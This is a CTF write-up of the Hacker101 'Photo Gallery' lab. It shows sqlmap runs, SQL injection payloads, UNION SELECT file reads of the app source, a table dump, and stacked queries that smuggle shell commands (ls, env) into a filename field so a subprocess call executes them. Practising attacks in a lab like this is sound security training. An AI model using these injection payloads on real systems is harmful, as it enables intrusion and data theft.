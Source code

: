 ```yaml
---
title: Hacker101 CTF Photo Gallery [moderate] writeup
subtitle: a write up for this web challenge
description: A write up for the Photo Gallery [moderae] challenge
published: true
datePublished: 1609676431536
author: lwlx
authorTwitter: "0x0000005"
authorPhoto: /profile.jpg
tags:
  - ctf
  - writeup
  - hackerone
  - hacker101
  - security
thumbnailPhoto: /hackerone/hackerone-photogallery-thumb.jpg
bannerPhoto: /hackerone/hackerone-photogallery.jpg
canonicalUrl:
---
```


# Photo Gallery _[moderate]_

This is my Write Up for the "Photo Gallery" challenge of HackerOne's CTF.

As usual we get a link to webpage, it seems to be an image gallery, but one of the images is broken.
The missing one is called `Invisible`, so lets look into that.

```
http://34.74.105.127/ad3e8c7df9/
```

![initial page](/hackerone/photogallery-start.png "initial page")

## Information gathering

with Burp we were able to find that the server returns no content for this image.
images are loaded with a `GET` Request to the server like so:

`GET /ad3e8c7df9/fetch?id=1 HTTP/1.1`

this also aligns with the first tip we are provided:

> Hint 1: _Consider how you might build this system yourself. What would the **query for fetch** look like?_

naturally we start fuzzing the `id` parameter.

```python
GET /ad3e8c7df9/fetch?id=4 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=0 HTTP/1.1 # 404
GET /ad3e8c7df9/fetch?id=-1 HTTP/1.1 # 500
```

alright, no quick wins, so let's give it a try with fizzing using sqlmap.
Quickly we are able to see that the server seems to be vulnerable to some attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2"
```

This command runs for quite a while and will try to find vulnerabilities in the fetch endpoint.
when we are done we should know what to do next.

## Gathered Data

### sqlmap identified the following injection point(s) with a total of 311 HTTP(s) requests:

```python
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3567=3567

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 8480 FROM (SELECT(SLEEP(5)))KHRS)
```

```python
[21:44:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

### Our Target Server:

    | Type      | Service      | Version                  | Vulnerable?    |
    | --------- | ------------ | ------------------------ | -------------- |
    | OS        | Linux Ubuntu | ??                       | not focused    |
    | Webserver | Nginx        | 1.14.0                   | no             |
    | Database  | MySQL        | >= 5.0.12 (MariaDB fork) | yes (id param) |

Good, we got something, we know the server is vulnerable to multiple vulnerabilities such as a 'boolean base blind'. We also found the Webserver is Nginx v1.14.0, which sadly has no usable vulnerabilities here. But with us now knowing the exact os and DB System used lets run sqlmap again with that info and see what we get.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=2" -f --os=linux --dbms=mysql --level=3 -o
```

we dont really get any more useful information from here.
soo.. were kinda stuck lets just get another hint then:

> Hint 2: _Take a few minutes to consider the **state of the union**_

The state uf the union? are they hinting on using UNION statements in the query?
_The UNION operator is used to combine the result-set of two or more SELECT statements._
That seems like somethng we can make use of, so lets try and combine our query statements f.e. like this:

`http://34.74.105.127/ad3e8c7df9/fetch?id=2 UNION SELECT 'something'`

but what do we look for? Lets get another hint.

> Hint 3: _This application runs on the **uwsgi-nginx-flask-docker** image_

uwsgi-nginx? hmm havent heard of that, but sems to be some kind of portable all in one flask. lets look for the docs.

https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files

> uWSGI can be configured using several different methods.

YAML, JSON, INI are some supported formats -> ini beeing the defualt so lets try getting the 'uwsgi.ini' file?

![union select wiht burp repeater](/hackerone/union-select-ini.png "union select wiht burp repeater")

this returns us some configdata pointing to module main which is the entrypoint.

```python
[uwsgi]
module = main
callable = app
```

so lets see if we can also fethc the main.py

```python
http://35.190.155.168/c947e97f6e/fetch?id=4%20UNION%20SELECT%20%27main.py%27--
```

Here we get lots of infos our **first FLAG** and the db connection settings:

### FLAG 0:

```python
%s
' % (pid, sanitize(ptitle)) fns.append(pfn) rep += 'Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '' rep += '
\n' return home.replace('$ALBUMS$', rep) @app.route('/fetch') def fetch(): cur = getDb().cursor() if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0: abort(404)
# It's dangerous to go alone, take this: # ^FLAG^9e6d57c394c129??????????????????????????????f74dbf2faa0abd571b32c7$FLAG$ return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read() if __name__ == "__main__": app.run(host='0.0.0.0', port=80)
```

`return MySQLdb.connect(host="localhost", user="root", password="", db="level5")`

we also see that they are using the photos table

`cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`

lets try to fuzz that with sqlmap, since we now know the DB and tables info we can launch a targeted attack.

```python
sqlmap -u "http://34.74.105.127/ad3e8c7df9/fetch?id=1" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 2
```

This can take quite a while.. for me it crashed after 40 minutes, so i gave it another go with just focusing on the column `filename` since, here is the value we need.we do this by adding the -C parameter, i also increased the thradcount to 4 to try and get faster results. I also changed the url to contain id=3 since this is the id we want to get the info from.

```python
sqlmap -u "http://35.190.155.168/c947e97f6e/fetch?id=3" --method=GET --dump -D level5 -T photos -p id, --code=200 --ignore-code=500 --skip-waf -o --threads 4 -C filename
```

This means that sqlmap will start with the filename of id=3 which is exactly what we want right now.

![starts to query filename of id 3](/hackerone/photo-gallery-hash.png "query on the filename of id 3")
So lets have a look at our results:

```python
Database: level5
Table: photos
[3 entries]
+------------------------------------------------------------------+
| filename |
+------------------------------------------------------------------+
| 9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa |
| files/adorable.jpg |
| files/purrfect.jpg |
+------------------------------------------------------------------+
```

> you might be getting partial values like so:
> `9ef8fc5di15625db993f1c8e120beafc6873d801a804670?????????????????`
> you should be able to re-run sqlmap to find the missing characters
> `9ef8fc5da15625db993f1c8e120beafc6873d801a804670b9497ecc782ca11fa`

decrypted: `\*||+ls+-a+tmp.txt`
another file! nice lets try and get that with a UNION STATEMENT request like so:

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'tmp.txt'-- HTTP/1.1`
hmm no luck it seems... let's do it another way.

From our previous findings we know that files are in the 'files' directory and that we can run sql statements on the id param. So we want to try to move the file or its contents so we can access it. We also got a new hint of using ls output to find temp file.

We want to run following statements via the vulnerable param:

#### ls in the /files directory and store data in bigWin.txt

`update photos set filename='* || ls ./files >bigWin.txt ' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename=%27\*%20||%20ls%20./files%20%3EbigWin.txt%20%27%20where%20id=3;%20commit;%20-- HTTP/1.1`

#### store all env data in bigWin.txt (because so often flags are here)

`update photos set filename='* || env >bigWin.txt' where id=3; commit;`

`GET /ad3e8c7df9/fetch?id=1;%20update%20photos%20set%20filename%3D%27*%20%7C%7C%20env%20%3Etmp.txt%27%20where%20id%3D3%3B%20commit%3B%20-- HTTP/1.1`

after you succsessfully ran those you should be able to run the union select again to get ahold of bigWin.txt!

`GET /ad3e8c7df9/fetch?id=4 UNION SELECT 'bigWin.txt'-- HTTP/1.1`

Tadaa!! we got it all.

```bash
"^FLAG^9ef8fc5da15????????????????????????????????????????????782ca11fa$FLAG$"
"^FLAG^63a407d0083????????????????????????????????????????????4564ee9f2$FLAG$"
HOSTNAME=ad3e8c7df92d
SHLVL=0
```
